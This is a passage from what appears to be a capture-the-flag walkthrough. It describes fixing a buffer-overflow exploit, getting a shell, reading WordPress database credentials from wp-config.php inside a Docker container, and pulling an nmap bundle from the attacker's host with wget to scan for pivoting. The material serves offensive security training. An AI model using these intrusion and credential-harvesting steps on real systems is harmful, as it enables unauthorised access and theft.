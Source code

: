 - After that we run again to see if it is working, now we are getting elfparseerror, once again, probably because of the GIF89a header
![DESC](file-20250504202740123.png)
- Since it is a buffer exploit, it downloads the libc to get the offsets of the addresses needed for the exploit to work, since we don't need exactly the file, only the offsets from the functions (that will not be in the last bytes of the file) we can fix the bytes by appending some null bytes `0x00` to the end of the file
![DESC](file-20250504203553429.png)
- After fixing the libc, we don't get the elfparseerror anymore, but we get that the exploited failed
![DESC](file-20250504203250444.png)
- We then try to encode our payload to see if it was a problem on the encoding
![DESC](file-20250504203934803.png)
![DESC](file-20250504203915956.png)
- With the working exploit we can now get a shell on the box
![DESC](file-20250504204113251.png)

## Horizontal Privilege Escalation 

We can see that we are on a docker instance because of the hostname and because of the presence of the `.dockerenv` file on `/`
![DESC](file-20250506002454414.png)

Inside the docker, we can enumerate the webserver files, since we are running `wordpress`, we search for the `wp-config.php` which often contains the database credentials

![DESC](file-20250504204306063.png)
![DESC](file-20250504204318427.png)

From the config file we can see that the database user is `wp_user` and the password is `wp_password`, and that the host which is running is different from the one we're in.

To access this host, we need to port forward the `MySql` default port (3306) to our host. We could use various tools for this, as shown in the `Port Forward` section on the summary but I chose to use [`chisel`](https://github.com/jpillora/chisel) because it is a simple and effective tool for port forwarding.

> Note: we can quickly confirm the `3306` port open with `nc` if we had it on the machine using `nc -zv <IP> <PORT>`, we could upload a `nc` static binary but we did the `nmap` static binary to check all of the other ports.
> We could not simply run the `nmap` binary because it could not find the `scripts` folder, se we sent not only the binary but the scripts folder compressed as tar as well
{: .prompt-info}

```
www-data@8e3a72b5e980:/tmp$ chmod +x ./nmap && ./nmap 172.17.0.1

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2025-05-06 00:39 UTC
Unable to find nmap-services!  Resorting to /etc/services
Unable to open /etc/services for reading service information
QUITTING!
www-data@8e3a72b5e980:/tmp$ wget http://10.10.14.27:8000/nmap.tar
--2025-05-06 00:39:58--  http://10.10.14.27:8000/nmap.tar
Connecting to 10.10.14.27:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 22210560 (21M) [application/x-tar]
Saving to: 'nmap.tar'

nmap.tar            100%[===================>]  21.18M  3.42MB/s    in 7.2s

2025-05-06 00:40:05 (2.94 MB/s) - 'nmap.tar' saved [22210560/22210560]
```